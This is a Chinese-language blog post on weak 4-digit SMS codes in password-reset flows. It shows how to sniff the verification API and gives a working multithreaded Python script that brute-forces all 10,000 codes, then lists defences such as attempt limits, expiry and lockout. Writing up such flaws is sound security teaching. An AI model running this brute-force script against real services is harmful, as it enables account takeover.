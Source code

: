 ```yaml
---
title: 找回密碼之簡訊驗證碼強度安全問題
author: ZhgChgLi
date: 2021-03-14T23:57:38.256Z
categories: ZRealm Dev.
tags: [ios-app-development,hacker,web-security,password-security,security-token]
---
```


### 找回密碼之簡訊驗證碼強度安全問題

使用 Python 展示暴力破解的嚴重性

![Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText)](/assets/99a6cef90190/1*xtbLIfJ6KELkGYeVCnzSFg.jpeg "Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText)")
### 前言

本文沒什麼資安技術含量，單純是日前在使用某平台網站時的突發奇想；想說順手測看看安全性，結果發現的問題。

在使用網站、APP 服務的忘記密碼找回功能時；一般會有兩個選項，一是輸入帳號、Email，然後會寄含有 Token 的重設密碼頁面連結到信箱，點擊後打開頁面就能重設密碼，這部分沒什麼問題，除非像 [之前那篇](../142244e5f07a) 文章所說，設計上有漏洞才會有問題。

另一個找回密碼的方式是輸入綁定的手機號碼（多半用在 APP 服務），然後會寄出簡訊驗證碼到手機，完成驗證碼輸入即可重設密碼；但為了便利性，多半的服務都是使用純數字作為驗證碼，另外也因為在 iOS ≥ 11 之後增加 [Password AutoFill](../948ed34efa09) 功能，當手機收到驗證碼後鍵盤會自動判讀並跳出提示。

![](/assets/99a6cef90190/1*f7frmgNsLwW1Q9e9QtAt1A.png)

查找 [官方文件](https://developer.apple.com/documentation/security/password_autofill/about_the_password_autofill_workflow) ，蘋果並沒有給出驗證碼自動填入的判讀格式規則；但我看幾乎所有能支援自動填入的服務都是使用純數字，推測應該是只能用數字不能使用數字英文夾雜的複雜組合。
### 問題

因數字密碼的組合存在暴力破解的可能性，尤其是 4 位密碼；組合只有 0000~9999，10,000 種組合；使用多個 thread 多台機器就能分組暴力破解。

假設驗證請求需要 0.1 秒回應，10,000 個組合 = 10,000 次請求
```
破解所需嘗試時間：((10,000 * 0.1) / thread 數) 秒
```

就算不開 thread 也只需要 16 多分種就能嘗試出正確的簡訊驗證碼。
> _除密碼長度、複雜度不足之外，還有個問題是驗證碼未設嘗試上限、有效期限太長這兩個問題。_

### 組合

綜合上述，此資安問題常見於 APP 端；因網頁服務多半都會在嘗試錯誤多次後加上圖形驗證碼驗證或在請求重設密碼時需多輸入安全問題，增加發送驗證請求的困難度；另外網頁服務的驗證若沒有前後端分離，變成每次驗證請求都要拿整個網頁，拉長請求回應時間。

APP 端因流程設計及方便使用者，多半會簡化重設密碼流程、有的 APP 甚至是通過手機號碼驗證就能登入；如果在 API 端沒有做防護則會造成資安漏洞。
### 實踐
> ⚠️警告⚠️ 本文僅作展示此安全問題的嚴重性，請勿拿去做壞事。
#### 嗅探驗證請求 API

萬事都從嗅探開始，這部分可參考之前的文章「 [APP有用HTTPS傳輸，但資料還是被偷了。](../46410aaada00) 」、「 [使用 Python+Google Cloud Platform+Line Bot 自動執行例行瑣事](../70a1409b149a) 」第一篇文章看原理建議使用第二篇文章的 [Proxyman](https://proxyman.io/) 進行嗅探。

![](/assets/99a6cef90190/1*22uVkKdpDXnwEygDa9lwyA.png)

如果是前後端分離的網站服務也能使用 Chrome -> 檢查 -> Network -> 查看在送出驗證碼後發了什麼請求。

![](/assets/99a6cef90190/1*Skm69eJiZKeK4_QUU0wIoQ.png)

**這邊假設得到的檢查驗證碼請求是：**
```
POST [https://zhgchg.li/findPWD](https://zhgchg.li/findPWD)
```

**Response：**
```
{
   "status":fasle
   "msg":"驗證錯誤"
}
```
#### 撰寫暴力破解 Python 腳本
```python
import random
import requests
import json
import threading

phone = "0911111111"
found = False
def crack(start, end):
    global found
    for code in range(start, end):
        if found:
            break
        
        stringCode = str(code).zfill(4)
        data = {
            "phone" : phone,
            "code": stringCode
        }

        headers = {}
        try:
            request = requests.post('https://zhgchg.li/findPWD', data = data, headers = headers)
            result = json.loads(request.content)
            if result["status"] == True:
                print("Code is:" + stringCode)
                found = True
                break
            else:
                print("Code " + stringCode + " is wrong.")
        except Exception as e:
            print("Code "+ stringCode +" exception error \(" + str(e) + ")")

def main():
    codeGroups = [
        [0,1000],[1000,2000],[2000,3000],[3000,4000],[4000,5000],
        [5000,6000],[6000,7000],[7000,8000],[8000,9000],[9000,10000]
    ]
    for codeGroup in codeGroups:
        t = threading.Thread(target = crack, args = (codeGroup[0],codeGroup[1],))
        t.start()

main()
```

執行腳本後我們得到：

![](/assets/99a6cef90190/1*jGp69g9H1BjLqq6SdIHRBw.png)
```
驗證碼等於：1743
```

將 `1743` 帶入重設密碼更改掉原始密碼或直接登入帳號。
> Bigo!
### 解決之道
- 密碼重設增加更多資訊驗證（如：生日、安全問題）
- 增加驗證碼長度（如 Apple 6 碼數字）、增加驗證碼複雜度（如果不影響 AutoFill 功能）
- 驗證碼嘗試錯誤大於 3 次後使其失效，需請使用者重新發送驗證碼
- 驗證碼有效時限縮短
- 驗證碼嘗試錯誤過多次鎖定裝置、增加圖形驗證碼
- APP 多做 SSL Pining、傳輸加解密（防止嗅探）


[Medium 原文](https://medium.com/zrealm-ios-dev/%E6%89%BE%E5%9B%9E%E5%AF%86%E7%A2%BC%E4%B9%8B%E7%B0%A1%E8%A8%8A%E9%A9%97%E8%AD%89%E7%A2%BC%E5%BC%B7%E5%BA%A6%E5%AE%89%E5%85%A8%E5%95%8F%E9%A1%8C-99a6cef90190)

